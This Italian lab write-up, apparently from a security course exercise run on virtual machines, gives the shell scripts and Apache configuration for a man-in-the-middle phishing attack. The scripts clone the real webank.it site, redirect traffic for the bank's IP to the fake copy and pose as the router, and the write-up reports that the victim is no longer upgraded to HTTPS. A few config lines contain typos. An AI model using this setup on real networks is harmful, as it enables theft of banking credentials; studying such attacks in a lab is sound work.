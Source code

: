 Prima di tutto occorre fare il _mirroring_ del sito web. 
```bash
wget --mirror --convert-links --html-extension --no-parent -l 1 --no-check-certificate www.webank.it
```
Questo comando però mi da problemi sull'attacker, quindi è eseguito altrove e riportato staticamente in `/root`.

Anche qui, in `/root`, abbiamo diversi script:

```bash
#------- main.sh -------
bash /root/ip.conf
echo "nameserver 1.1.1.1" > /etc/resolv.conf

# abilito il forwarding ip: devo poter agire come router
sysctl -w net.ipv4.ip_forward = 1

# copio i file del sito web nella cartella giusta
cp -r /root/www.webank.it /var/www/

# salvo il file di configurazione per il fake server
cp /root/webank.conf /etc/apache2/sites-available/webank.conf

# redirigo il traffico HTTP in ingresso destinato all'indirizzo IP 66.22.35.31 e alla porta 80 verso un servizio locale sulla stessa macchina: l'ip è quello del webank reale, e lo vogliamo redirigere al nostro fake server
iptables -A PREROUTING -t nat -p tcp --dport 80 -d 66.22.35.31 -j REDIRECT

# disabilito il vhost di default
a2dissite 000-default.conf 
# attivo il server fake
a2ensite webank
# riavvio il servizio
service apache2 restart
# lancio lo script python per il mitm per fingermi router
python3 mitm.py
```

```bash
#------- ip.conf -------
ip addr add 10.0.0.200/24 dev eth0
ip route add default via 10.0.0.1
```

```bash
#------- webank.conf -------
<VirtualHost _default_:80>
DocumentRoot "/var/www/www.webank.it"

ServerName www.webak.it:80
ServerAdmin angelo@webank.it
<Directory  "/var/www/www.webank.it">
    Options Indexes
    AllowOverride None
    Allow from from all
    Order allow,deny
</Directory>
</VirtualHost>
```

Se da `VM-client` provo a connettermi a `http://www.webank.it` non vengo reindirizzato alla versione `https`, come succederebbe senza l'attacco.
